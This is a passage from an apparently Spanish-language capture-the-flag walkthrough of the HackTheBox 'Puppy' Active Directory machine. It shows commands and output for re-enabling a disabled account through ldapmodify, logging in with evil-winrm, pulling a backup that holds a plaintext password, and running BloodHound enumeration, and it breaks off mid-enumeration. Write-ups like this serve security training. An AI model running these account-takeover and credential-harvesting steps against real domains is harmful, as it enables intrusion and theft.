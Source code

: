 search reference
ref: ldap://ForestDnsZones.PUPPY.HTB/DC=ForestDnsZones,DC=PUPPY,DC=HTB

 search reference
ref: ldap://DomainDnsZones.PUPPY.HTB/DC=DomainDnsZones,DC=PUPPY,DC=HTB

search reference
ref: ldap://PUPPY.HTB/CN=Configuration,DC=PUPPY,DC=HTB

 search result
search: 2
result: 0 Success

 numResponses: 5
numEntries: 1
 numReferences: 3
 
 66050 numero de cuenta deshabilitada, pasamos a habilitar con 66048
 
 
 ldapmodify -x -H ldap://10.10.11.70 -D "ANT.EDWARDS@PUPPY.HTB" -W << EOF
dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 66048
EOF
# 12- User.txt 1st flag
We use evil-winrm -i 10.10.11.70 -u 'ADAM.SILVER' -p 'Abc123456'
Sin resultados importantes
#13- Privilege Escalation
Verifique que haya un directorio de respaldo debajo del directorio raíz
*Evil-WinRM* PS C:\Backups> ls


    Directory: C:\Backups


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/8/2025   8:22 AM        4639546 site-backup-2024-12-30.zip


*Evil-WinRM* PS C:\Backups> download site-backup-2024-12-30.zip
                                        
Info: Downloading C:\Backups\site-backup-2024-12-30.zip to site-backup-2024-12-30.zip

Después de la descompresión, verá un archivo bak con una credencial de usuario: steph.cooper/ChefSteph2025!, que puede usarse para iniciar sesión.

El sabueso vuelve a coleccionar
[root@kali] /home/kali/Puppy/puppy  
❯ bloodhound-python -u 'steph.cooper' -p 'ChefSteph2025!'  -d puppy.htb -ns 10.10.11.70 -c All --zip                   
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: puppy.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 10 users
INFO: Found 56 groups
INFO: Found 3 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.PUPPY.HTB